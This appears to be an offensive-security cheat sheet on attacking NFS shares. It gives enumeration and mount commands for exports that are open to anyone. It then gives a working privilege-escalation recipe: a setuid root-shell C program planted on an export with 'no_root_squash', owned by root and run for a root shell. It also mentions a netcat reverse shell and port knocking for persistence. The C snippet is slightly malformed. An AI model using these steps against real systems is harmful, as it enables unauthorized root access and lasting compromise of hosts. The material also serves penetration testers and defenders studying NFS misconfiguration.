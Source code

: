 # 🟡 NFS

## :ballot\_box\_with\_check: <mark style="color:blue;">Introduction</mark>

network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage. NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it’s not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.

Both Portmapper and RPCbind run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

The client system then contacts rpcbind on the server with a particular RPC program number. The rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service.

Please note that since NFS is an RPC-based service and relies on other RPC services, such as “mountd,” it should be directly queried via the Portmapper service which is found on port TCP and/or UDP 111 when using Nmap NSE scripts for instance.

An administrator wishing to share files from an NFS server will configure what are known as “exports.” Exports are the mechanism used by NFS in order to “export” directories, in other words, make entire directories available to other users over the network. Exports configured for any given NFS server can usually be found in the “/etc/exports” file on a target host locally. For now, we’re going to focus on identifying available exports from a remote perspective. One common issue with NFS, is that oftentimes administrators will configure exports with little attention to security, and will usually “export” directories in a manner that allows any host or IP address to connect, without any authentication, and if we’re lucky, also provide write-access to directories.

## <mark style="color:red;">find directories (shares)</mark>

```
showmount -e [ip]
```

after finding directories we can try to mount them to our system, for example lets say we found a directory shared with which is the home directory of user "bob":

```
mkdir -p /mnt/home/bob
mount -t nfs [NFS Server IP]:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

if we find any directories we can mount the shared directory and access it:

```
mount -t nfs <NFS Server IP>:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

## <mark style="color:red;">port map with rpcinfo</mark>

NFS can be identified by probing port 2049 directly or asking the portmapper for a list of services Portmapper (AKA rpcbind) is another common service found on Linux-based systems and is used to essentially “map” RPC (Open Network Computing Remote Procedure Call or “ONC RPC,” not to be confused with Microsoft’s implementation of RPC) services to their corresponding TCP or UDP ports on a target system.

{% hint style="info" %}
Querying a single port (TCP/111), essentially enumerates all related RPC-related service ports without us having to conduct a port scan against all those ports individually.
{% endhint %}

```
nmap --script rpc-grind,rpcinfo 192.168.13.26 –p 111
rpcinfo -p [ip]
```

#### we can use a “xinetd” RPC-based UDP service combined with a netcat reverse shell, and a “port knocking” method for persistence on a host once we have access.

there are possible privilege escalation methods if NFS service is available to us, refer to [this section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/nfs) under linux privilege escalation.

## <mark style="color:red;">NFS Exported Shares</mark>

List NFS exported shares:

```
showmount -e 192.168.110.102
```

and check if 'rw,no\_root\_squash' is present. If it is present, compile the below sid-shell.c:

```c
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
```

upload it to the share and execute the below to launch sid-shell to spawn a root shell:

```
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```
